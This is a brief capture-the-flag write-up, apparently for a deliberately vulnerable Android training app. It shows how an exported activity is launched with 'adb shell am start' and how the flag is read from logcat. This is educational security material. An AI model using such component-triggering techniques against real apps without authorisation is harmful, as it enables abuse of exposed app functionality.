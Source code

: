 
# Flag1Activity

```java
<activity
    android:name="io.hextree.attacksurface.activities.Flag1Activity"
    android:exported="true"/>
<activity>

```

The first thing to notice is that the activity is set to `exported="true"`, which means it can be called from outside the app.

```java
protected void onCreate(Bundle bundle) {
    super.onCreate(bundle);
    this.f = new LogHelper(this);
    this.f.addTag("basic-main-activity-avd2");
    success(this);
}
```

This is a simple activity. When created (or called), it will add a tag and invoke the `success()` method.

Since this does not require a Proof of Concept (POC) app, I will keep it simple and use `adb am` to trigger the activity.

Run the following command to check the logcat:

```bash
adb logcat --pid=$(adb shell pidof -s io.hextree.attacksurface)
```

Now, execute this command to start the activity:

```bash
adb shell am start -n io.hextree.attacksurface/.activities.Flag1Activity
```

- `start`: Starts the activity.
- `n`: Specifies the component name.
- `io.hextree.attacksurface`: Package name.
- `.activities.Flag1Activity`: Component name.

You can also write it like this:

```bash
io.hextree.attacksurface/io.hextree.attacksurface.activities.Flag1Activity
```

However, I prefer to keep it concise. Now, check your app or logcat to see if the `success()` method was called, and you should receive the flag!

```bash
03-01 15:00:31.749  3417  3417 I Flag1   : success() called!
03-01 15:00:31.766  3417  3417 I Flag1   : HXT{xxxxxxx}
```

---